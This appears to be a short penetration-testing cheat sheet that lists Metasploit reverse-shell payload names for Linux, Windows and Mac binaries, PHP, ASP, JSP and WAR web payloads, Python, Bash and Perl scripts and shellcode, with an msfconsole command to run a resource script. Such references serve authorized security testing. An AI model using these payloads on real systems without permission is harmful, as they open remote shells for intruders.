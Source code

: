 

#  Binaries 

#### **Linux** 

```
linux/x86/meterpreter/reverse_tcp
```



####  **Windows** 

```
windows/meterpreter/reverse_tcp
```



####  **Mac** 

```
osx/x86/shell_reverse_tcp
```





# Web Payloads 

####  **PHP** 

```
php/meterpreter_reverse_tcp 
```



#### **ASP** 

```
windows/meterpreter/reverse_tcp

```



####  **JSP** 

```
java/jsp_shell_reverse_tcp 
```



####  **WAR** 

```
java/jsp_shell_reverse_tcp
```



# Scripting Payloads

 **Python**  

```
cmd/unix/reverse_python
```



**Bash**

```
 cmd/unix/reverse_bash
```



#### **Perl** 

```
cmd/unix/reverse_perl
```

# Shellcode



####  **Linux Based Shellcode**  

```
linux/x86/meterpreter/reverse_tcp 
```



####  **Windows Based Shellcode**

```
windows/meterpreter/reverse_tcp 
```



####   **Mac Based Shellcode** 

```
osx/x86/shell_reverse_tcp 
```

# run rc sript by  typing

``` 
msfconsole -r script.rc
```

#### thankyou [netsec](https://netsec.ws/?p=331)

